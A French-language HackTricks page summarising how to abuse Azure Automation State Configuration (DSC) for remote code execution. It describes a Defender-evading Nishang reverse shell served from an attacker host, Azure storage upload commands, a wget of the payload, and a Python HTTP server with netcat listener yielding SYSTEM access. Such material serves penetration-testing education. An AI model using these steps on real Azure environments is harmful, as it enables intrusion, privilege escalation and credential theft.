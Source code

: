 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Vérifiez le post complet ici :** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Résumé de la préparation et des étapes de l'infrastructure de serveur distant (C2)

#### Vue d'ensemble

Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger un payload modifié de Nishang `Invoke-PowerShellTcp.ps1`, nommé `RevPS.ps1`, conçu pour contourner Windows Defender. Le payload est servi depuis une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un simple serveur HTTP Python. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers

- **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de Configuration d'État Désirée (DSC) qui récupère et exécute le payload. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la VM, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Compresser le fichier de configuration

- Le `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage et télécharger

- Le fichier de configuration compressé est téléchargé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la cmdlet Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparer la boîte Kali

- Le serveur Kali télécharge le payload RevPS.ps1 depuis un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Le script est modifié pour spécifier la VM Windows cible et le port pour le reverse shell.

#### Étape 5 — Publier le fichier de configuration

- Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de reverse shell à l'emplacement spécifié sur la VM Windows.

#### Étape 6 — Héberger le payload et configurer l'écouteur

- Un Python SimpleHTTPServer est démarré pour héberger le payload, avec un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tâche planifiée exécute le payload, atteignant des privilèges de niveau SYSTEM.

#### Conclusion

L'exécution réussie de ce processus ouvre de nombreuses possibilités pour d'autres actions, telles que le dumping de credentials ou l'expansion de l'attaque à plusieurs VMs. Le guide encourage l'apprentissage continu et la créativité dans le domaine d'Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
